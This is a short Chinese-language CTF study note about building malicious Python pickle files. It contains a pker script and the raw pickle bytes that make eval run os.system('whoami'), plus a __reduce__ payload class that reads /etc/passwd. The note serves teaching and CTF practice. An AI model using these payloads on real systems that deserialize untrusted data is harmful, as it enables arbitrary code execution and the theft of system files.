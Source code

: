 tags:: CTF/Python

- > [参考](https://xz.aliyun.com/t/7012)
- # 构造恶意Pickle文件
	- 某些特定的 Python 代码可以直接被转成 Pickle
	- 可以：
		- 变量赋值 存到 memo 中，保存 memo 下标和变量名即可
		- 函数调用
		- 类型字面量构造
		- list 和 dict 成员修改
		- 对象成员变量修改
	- 可以用[这个工具](https://github.com/EddieIvan01/pker)生成
	- ```shell
	  $ cat test/code_breaking
	  getattr = GLOBAL('builtins', 'getattr')
	  dict = GLOBAL('builtins', 'dict')
	  dict_get = getattr(dict, 'get')
	  globals = GLOBAL('builtins', 'globals')
	  builtins = globals()
	  __builtins__ = dict_get(builtins, '__builtins__')
	  eval = getattr(__builtins__, 'eval')
	  eval('__import__("os").system("whoami")')
	  return
	  
	  $ python3 pker.py < test/code_breaking
	  b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
	  ```
- # Pickle文件OPCODE分析
	- `python -m pickletools pickle.pkl`
- # 基础
	- 把生成的 bytes 加载即可执行任意代码
	- 对象被 pickle 反序列化时，pickle 会调用对象的`__reduce__`方法（如果有）来获得反序列化的方法
	- ```python
	  #!/usr/bin/python2
	  import pickle
	  import urllib
	  class payload(object):
	      def __reduce__(self):
	         return (eval, ("open('/etc/passwd','r').read()",))
	  a = pickle.dumps(payload())
	  a = urllib.quote(a)
	  print a
	  ```
-